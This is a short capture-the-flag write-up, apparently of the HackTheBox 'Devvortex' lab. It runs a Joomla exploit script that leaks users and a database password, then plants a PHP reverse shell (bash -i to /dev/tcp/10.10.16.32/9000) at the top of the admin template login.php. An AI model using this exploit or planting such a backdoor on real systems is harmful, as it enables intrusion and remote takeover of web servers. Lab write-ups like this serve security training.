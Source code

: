 Let's check for Vulnerabilities of Joomla !

I found [this] one ! so let's use it !
```
ruby exploit.rb http://dev.devvortex.htb
```

The output is this one !
```
ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0

```

On modify le fichier ```login.php```, check the first line
```
<?php
system('bash -c "bash -i >& /dev/tcp/10.10.16.32/9000 0>&1"');

/**
 * @package     Joomla.Administrator
 * @subpackage  Templates.Atum
 * @copyright   (C) 2016 Open Source Matters, Inc. <https://www.joomla.org>
 * @license     GNU General Public License version 2 or later; see LICENSE.txt
 * @since       4.0.0
 */

defined('_JEXEC') or die;

use Joomla\CMS\Environment\Browser;
use Joomla\CMS\Factory;
use Joomla\CMS\HTML\HTMLHelper;
use Joomla\CMS\Language\Text;
use Joomla\CMS\Layout\LayoutHelper;
use Joomla\CMS\Uri\Uri;
```
